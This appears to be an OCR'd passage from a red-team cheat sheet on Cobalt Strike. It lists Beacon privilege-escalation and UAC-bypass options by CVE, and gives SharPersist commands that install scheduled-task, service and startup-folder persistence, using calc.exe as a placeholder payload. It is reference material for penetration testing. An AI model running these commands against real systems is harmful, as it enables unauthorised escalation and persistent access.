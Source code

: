 ### Elevate Kit

UAC Token Duplication : Fixed in Windows 10 Red Stone 5 (October 2018)

```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
```

### Persistence Kit

* https://github.com/0xthirteen/MoveKit
* https://github.com/fireeye/SharPersist
    ```powershell
    # List persistences
    SharPersist -t schtaskbackdoor -m list
    SharPersist -t startupfolder -m list
    SharPersist -t schtask -m list

    # Add a persistence
    SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
    SharPersist -t schtaskbackdoor -n "Something Cool" -m remove

    SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
    SharPersist -t service -n "Some Service" -m remove

    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
    SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
    SharPersist -t schtask -n "Some Task" -m remove
    ```

### Resource Kit

> The Resource Kit is Cobalt Strike's means to change the HTA, PowerShell, Python, VBA, and VBS script templates Cobalt Strike uses in its workflows

### Artifact Kit
